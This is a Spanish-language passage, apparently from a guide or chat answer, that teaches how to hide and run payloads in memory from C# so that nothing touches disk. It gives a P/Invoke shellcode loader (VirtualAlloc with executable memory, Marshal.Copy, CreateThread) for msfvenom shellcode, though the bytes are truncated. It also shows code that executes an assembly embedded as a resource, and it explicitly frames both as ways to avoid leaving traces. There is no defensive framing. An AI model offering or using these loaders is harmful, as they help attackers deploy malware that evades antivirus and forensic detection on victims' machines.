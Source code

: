 📌 Este enfoque **no escribe nada al disco** cuando el payload ya está incrustado o descargado en memoria.

---

#### ✅ 2. **Uso de `DllImport` para usar APIs de Windows (P/Invoke)**

Permite inyectar shellcode en memoria usando funciones nativas de Windows.

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    static void Main()
    {
        byte[] shellcode = new byte[] { 0xfc, 0x48, 0x83, 0xe4, ... }; // shellcode generado por msfvenom

        IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x1000 | 0x2000, 0x40);
        Marshal.Copy(shellcode, 0, addr, shellcode.Length);
        CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }
}
```

🧠 Esta técnica es conocida como **reflective shellcode loading**.

---

#### ✅ 3. **Uso de recursos incrustados para ocultar payloads**

Incrustas el payload (por ejemplo, shellcode o exe) como un recurso `.resx` o binario en el ejecutable.

```csharp
// El payload está en Properties.Resources.payload_bin
byte[] payload = Properties.Resources.payload_bin;
Assembly asm = Assembly.Load(payload);
asm.EntryPoint.Invoke(null, new object[] { new string[] { } });
```

📌 Así no necesitas dejar rastros en disco ni en rutas visibles.

---
